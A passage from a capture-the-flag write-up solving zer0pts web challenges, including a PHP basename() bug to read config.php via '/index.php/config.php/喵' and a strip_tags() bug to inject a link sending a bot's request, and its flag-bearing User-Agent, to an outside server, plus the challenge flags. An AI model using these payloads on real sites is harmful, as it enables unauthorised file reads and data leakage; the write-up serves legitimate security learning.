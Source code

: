 ```python
r = requests.get(url + '?q={}'.format(code))
```

Flag: `zer0pts{sh0rt_t0_10ng_10ng_t0_sh0rt}`

### Can you guess it?

In this challenge, if we set the `source` parameter, it will read the content of `basename($_SERVER['PHP_SELF'])`

```php
if (preg_match('/config\.php\/*$/i', $_SERVER['PHP_SELF'])) {
  exit("I don't know what you are thinking, but I won't let you read it :)");
}

highlight_file(basename($_SERVER['PHP_SELF']));
```

And our target is the `config.php` file, but the regular expression is hard to bypass.

So I try to investigate the `basename()` function from [php-src](https://github.com/php/php-src) then I found this bug:

https://bugs.php.net/bug.php?id=62119

The final payload is:

`/index.php/config.php/喵`

=> `zer0pts{gu3ss1ng_r4nd0m_by73s_1s_un1n73nd3d_s0lu710n}`


### MusicBlog

This challenge allows us to add `<audio>` tag in the post content.

And the bot (worker) will click the "like" button of our post if we set the checkbox.

The flag is in the `User-agent` of the bot, so our target is to let the bot send a request to our server.

And there is a `strip_tags()` function, so it is hard to inject other HTML tags.

Although `<audio>` has `on*` events, we can't run any javascript because of the strict CSP.

The goal is obviously to clickjack the bot, so I look into the `strips_tags()` function.

Then I found this php bug in PHP 7.4.0:

https://bugs.php.net/bug.php?id=78814

So the final payload is :

`<a/udio id="like" href="http://kaibro.tw:9487">zzxc</a>`

We will get the request from the bot:

```
GET / HTTP/1.1
Host: kaibro.tw:9487
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: zer0pts{M4sh1m4fr3sh!!}
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://challenge/post.php?id=c8e7da47-b470-48b7-91cc-8bce3fd45cc3
Accept-Encoding: gzip, deflate
Accept-Language: en-US
```

